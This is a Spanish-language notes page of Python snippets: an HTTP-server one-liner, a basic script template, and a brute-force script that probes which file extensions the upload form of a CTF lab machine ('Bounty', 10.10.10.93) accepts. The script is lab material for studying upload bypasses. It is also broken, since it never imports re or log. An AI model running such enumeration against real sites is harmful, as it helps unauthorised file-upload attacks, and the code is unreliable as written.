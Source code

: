 # Scripts y cosas en Python

Se muestran a continuación utilidades mas usadas en python.

## Servidor HTTP

Se crea un servidor **HTTP** en el directorio actual:

<pre>
python3 -m http.server 8080
</pre>

## Script básico

Se crea plantilla de Script básico. **NO COPIAR, ESCRIBIR**.

Se muestra y se crea script_basico.py.

<pre>
#!/usr/bin/python3

# Importaciones mas comunoes
import requests, signal, sys, time


def def_handler(sig, frame):

	print("\n\n[!] Saliendo ....\n")
	sys.exit(1)

# Ctlr+C
signal.signal(signal.SIGINT, def_handler)

def executeCommand():

	print("Ejecutando .... ")
	time.sleep(10)
	print("Ejecutado")


if __name__ == '__main__':

	executeCommand()

</pre>

## Script fuerza bruta maquina Bounty

~~~
import signal, time, pdb, sys, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
transfer_url = "http://10.10.10.93/transfer.aspx"
burp = {'http': 'http://127.0.0.1:8080'}

def uploadFile(extension):

    s = requests.session()
    r = s.get(transfer_url)

    viewState = re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0]
    eventValidation = re.findall(r'id="__EVENTVALIDATION" value="(.*?)"', r.text)[0]

    post_data = {
        '__VIEWSTATE': viewState,
        '__EVENTVALIDATION': eventValidation,
        'btnUpload': 'Upload'
    }

    fileUploaded = {'FileUpload1': ('Prueba%s' % extension, 'Esto es una prueba')}

    r = s.post(transfer_url, data=post_data, files=fileUploaded)

    if "Invalid File. Please try again" not in r.text:
        log.info("La extensiÃ³n %s es vÃ¡lida" % extension)

if __name__ == '__main__':

    f = open("/usr/share/seclists/Discovery/Web-Content/raft-medium-extensions-lowercase.txt", "rb")

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    for extension in f.readlines():
        extension = extension.decode().strip()
        p1.status("Probando con la extensiÃ³n %s" % extension)
        uploadFile(extension)
~~~


